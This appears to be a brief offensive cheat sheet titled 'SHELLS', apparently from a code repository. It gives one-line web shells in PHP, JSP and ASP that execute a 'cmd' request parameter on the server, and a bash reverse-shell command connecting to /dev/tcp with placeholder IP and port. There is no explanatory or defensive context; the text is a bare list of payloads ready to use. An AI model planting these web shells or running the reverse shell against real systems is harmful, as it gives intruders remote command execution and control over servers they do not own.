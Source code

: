 # SHELLS
```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1'
```